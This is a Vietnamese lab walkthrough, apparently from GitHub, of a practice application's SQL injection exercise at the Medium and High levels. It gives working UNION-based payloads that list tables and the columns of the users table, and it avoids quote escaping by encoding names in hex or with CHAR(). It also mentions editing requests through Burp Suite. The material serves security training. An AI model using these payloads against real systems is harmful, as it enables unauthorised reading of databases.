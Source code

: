 
## 🔸 LEVEL: MEDIUM

### 🔍 Phân tích:

```php
SELECT first_name, last_name FROM users WHERE user_id = $id;
```
<img width="590" height="95" alt="image" src="https://github.com/user-attachments/assets/82684816-6d8d-4226-8066-f4e4cae35107" />

<img width="607" height="146" alt="image" src="https://github.com/user-attachments/assets/18c0f7ac-a44b-4a81-aeed-2e2361eadf70" />

- Biến `$id` được lọc trước khi vào query.
- Nếu có ký tự đặc biệt (`'`, `"`, `--`, v.v.) → bị chèn dấu `/` escape → gây lỗi cú pháp.
- Giao diện chỉ cho nhập số, nhưng có thể sửa request bằng **Burp Suite** để chèn payload.

---

### 💡 Bypass:

- Liệt kê bảng:
```sql
1 UNION SELECT NULL, table_name FROM information_schema#
```
<img width="609" height="383" alt="image" src="https://github.com/user-attachments/assets/7055ba6b-8116-40b5-9468-6677b37a740f" />

- Liệt kê cột bảng `users` (tránh dùng `'users'` vì có `'`):
  - Dùng hex:
    ```sql
    0x7573657273
    ```
  - Dùng `CHAR()`:
    ```sql
    CHAR(117,115,101,114,115)
    ```

→ Payload hoàn chỉnh:
```sql
1 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=CHAR(117,115,101,114,115)#
```
<img width="604" height="595" alt="image" src="https://github.com/user-attachments/assets/b0bdca13-bd4c-4b89-becf-21d7ed9ff13b" />

---

## 🔺 LEVEL: HIGH

### 🔍 Phân tích:

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```
